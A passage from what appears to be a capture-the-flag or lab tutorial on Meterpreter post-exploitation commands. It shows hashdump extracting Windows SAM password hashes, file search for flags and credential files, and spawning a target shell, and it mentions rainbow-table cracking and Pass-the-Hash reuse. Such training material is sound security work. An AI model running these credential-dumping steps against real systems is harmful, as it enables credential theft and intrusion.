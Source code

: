 Be careful; you may lose your user privileges if you migrate from a higher privileged (e.g. SYSTEM) user to a process started by a lower privileged user (e.g. webserver). You may not be able to gain them back.

**Hashdump**

The hashdump command will list the content of the SAM database. The SAM (Security Account Manager) database stores user's passwords on Windows systems. These passwords are stored in the NTLM (New Technology LAN Manager) format.

The hashdump command
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
meterpreter >
```
While it is not mathematically possible to "crack" these hashes, you may still discover the cleartext password using online NTLM databases or a rainbow table attack. These hashes can also be used in Pass-the-Hash attacks to authenticate to other systems that these users can access the same network.

**Search**

The search command is useful to locate files with potentially juicy information. In a CTF context, this can be used to quickly find a flag or proof file, while in actual penetration testing engagements, you may need to search for user-generated files or configuration files that may contain password or account information.

The search command
```
meterpreter > search -f flag2.txt
Found 1 result...
    c:\Windows\System32\config\flag2.txt (34 bytes)
meterpreter >
```
**Shell**

The shell command will launch a regular command-line shell on the target system. Pressing CTRL+Z will help you go back to the Meterpreter shell.

The shell command
```
meterpreter > shell
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```  
Answer the questions below
No answer needed.
```
No answer needed
```
## Task 5. Post-Exploitation Challenge
Meterpreter provides several important post-exploitation tools.
